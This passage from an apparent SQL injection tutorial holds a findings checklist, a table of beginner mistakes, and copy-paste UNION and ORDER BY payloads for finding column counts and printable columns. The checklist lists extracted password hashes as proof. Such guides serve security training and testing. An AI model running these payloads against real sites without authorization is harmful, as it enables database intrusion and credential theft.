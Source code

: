 - [ ] Request path and parameter name (e.g., `GET /product?id`)
- [ ] Context detected (single-quote, double-quote, or numeric)
- [ ] Working comment style (`--+`, `#`, `/* */`)
- [ ] Attack method used (Union, Error, Boolean, Time-based)
- [ ] Column count and printable column indices (e.g., "3 columns, positions 2 and 3 visible")
- [ ] Database type and version (e.g., "MySQL 8.0.35")
- [ ] Key functions that worked (`database()`, `CONCAT()`, etc.)
- [ ] First row of extracted data as proof (e.g., "admin:$2y$10$...")
- [ ] All successful payloads (for reproduction)

***

## 14) Common Beginner Mistakes & Fixes

| Error | Why It Fails | Fix |
|-------|-------------|-----|
| Using `--` without space | MySQL requires space or + after `--` | Use `--+` or `-- ` (with space) |
| Mixing quote styles | Context mismatch breaks syntax | Always match detected context (§3) |
| Column count mismatch in UNION | UNION requires equal columns in both SELECTs | Verify column count first (§5.1) |
| No visible change in blind | Signal is too subtle | Use response length or sleep delays |
| Forgetting to URL-encode | Special chars break in URLs | Encode in Burp Repeater: Ctrl+U |

[1][5]

***

## 15) Quick Copy-Paste Payloads

### Column Count Discovery:
```sql
' ORDER BY 1 --+
' ORDER BY 2 --+
' ORDER BY 3 --+
' ORDER BY 4 --+
```

OR

```sql
' UNION SELECT NULL --+
' UNION SELECT NULL,NULL --+
' UNION SELECT NULL,NULL,NULL --+
' UNION SELECT NULL,NULL,NULL,NULL --+
```

### Printable Column Test (4 columns):
```sql
' UNION SELECT 'A',NULL,NULL,NULL --+
' UNION SELECT NULL,'A',NULL,NULL --+
' UNION SELECT NULL,NULL,'A',NULL --+
' UNION SELECT NULL,NULL,NULL,'A' --+
```
